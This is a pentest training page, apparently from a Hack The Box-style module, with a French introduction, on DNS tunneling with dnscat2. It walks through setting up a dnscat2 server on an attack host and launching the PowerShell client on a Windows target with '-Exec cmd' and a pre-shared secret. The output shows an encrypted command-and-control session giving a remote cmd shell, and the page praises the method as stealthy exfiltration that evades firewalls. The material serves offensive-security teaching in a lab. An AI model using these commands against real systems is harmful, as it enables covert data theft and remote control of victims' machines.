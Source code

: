 # DNS Tunneling with Dnscat2

***

{% hint style="info" %}
Dnscat2 est un outil de tunneling qui utilise le protocole DNS pour envoyer des données entre deux hôtes. Il utilise un canal chiffré de Command-&-Control (**C\&C** ou **C2**) et envoie des données à l’intérieur des enregistrements TXT du protocole DNS.

D’habitude, chaque environnement de domaine Active Directory dans un réseau d’entreprise aura son propre serveur DNS, qui résoudra les noms d’hôte en adresses IP et acheminera le trafic vers des serveurs DNS externes participant au système DNS global. Cependant, avec **dnscat2**, la résolution d’adresse est demandée à un **serveur externe**. Lorsqu’un serveur DNS local tente de résoudre une adresse, les **données sont exfiltrées et envoyées sur le réseau** au lieu d’une requête DNS légitime.

**Dnscat2** peut être une approche extrêmement furtive pour exfiltrer des données tout en **échappant aux détections des pare-feu** qui analysent les connexions HTTPS et inspectent le trafic.

Pour notre exemple de test, nous pouvons utiliser un **serveur dnscat2** sur notre hôte d’attaque et exécuter le **client dnscat2** sur une autre machine Windows.
{% endhint %}

***

### <mark style="color:red;">Setting Up & Using dnscat2</mark>

<mark style="color:green;">**Cloning dnscat2 and Setting Up the Server**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

<mark style="color:green;">**Starting the dnscat2 server**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
{% endcode %}

{% hint style="info" %}
After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. We can use the client with the dnscat2 project or use [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server. We can clone the project containing the client file to our attack host, then transfer it to the target.
{% endhint %}

<mark style="color:green;">**Cloning dnscat2-powershell to the Attack Host**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```
{% endcode %}

<mark style="color:green;">**Importing dnscat2.ps1**</mark>

```powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1
```

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```
{% endcode %}

We must use the pre-shared secret (`-PreSharedSecret`) generated on the server to ensure our session is established and encrypted. If all steps are completed successfully, we will see a session established with our server.

<mark style="color:green;">**Confirming Session Establishment**</mark>

```shell-session
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```

We can list the options we have with dnscat2 by entering `?` at the prompt.

<mark style="color:green;">**Listing dnscat2 Options**</mark>

```shell-session
dnscat2> ?
```

We can use dnscat2 to interact with sessions and move further in a target environment on engagements. We will not cover all possibilities with dnscat2 in this module, but it is strongly encouraged to practice with it and maybe even find creative ways to use it on an engagement. Let's interact with our established session and drop into a shell.

<mark style="color:green;">**Interacting with the Established Session**</mark>

```shell-session
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```
